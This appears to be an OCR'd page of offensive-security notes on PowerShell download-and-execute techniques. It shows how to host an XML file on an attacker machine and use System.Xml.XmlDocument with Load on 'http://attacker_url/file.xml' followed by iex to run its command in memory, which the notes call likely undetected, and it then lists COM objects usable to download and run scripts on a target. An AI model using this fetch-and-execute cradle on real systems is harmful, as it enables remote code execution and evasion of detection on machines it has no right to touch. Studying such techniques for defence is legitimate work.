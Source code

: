 
# System.Xml.XmlDoxument

The System.Xml.XmlDocument class allows us to execute a PowerShell command (or any system command) contained
within an attacker hosted XML document and is another great way to execute PowerShell code in memory, and 
in a way that is likely not detected, especially when combined with a server over HTTPS



What we'll want to create is an XML file with the following contents, which we'll host on our attacker
machine:


//the hashtag is here so the code doesnt mess with this MD doc
#<?xml version="1.0"?>
<command>
	<a>
		<execute>Get-Process</execute>
	</a>
</command>


The above xml file will simply list the system processes when executed


Next once our XML file is hosted, we can use the System.Xml.XmlDocument class with the "Load" method to
download and execute it


PS C:\> $xmldoc = New-Object System.Xml.XmlDocument
PS C:\> $xmldoc.Load("http://attacker_url/file.xml")
PS C:\> iex $xmldoc.command.a.execute



# COM Objects for Download & Execution


We can also use COM Objects to both download and execute scripts on a target system. Some of the COM
Objects available to us for this purpose are: 

Msxml2.XMLHTTP

Microsoft.XMLHTTP

InternetExplorer.Application

Excel.Application

Word.Application

MsXml2.ServerXmlHttp

WinHttp.WinHttpRequest.5.1 (Not Proxy Aware)
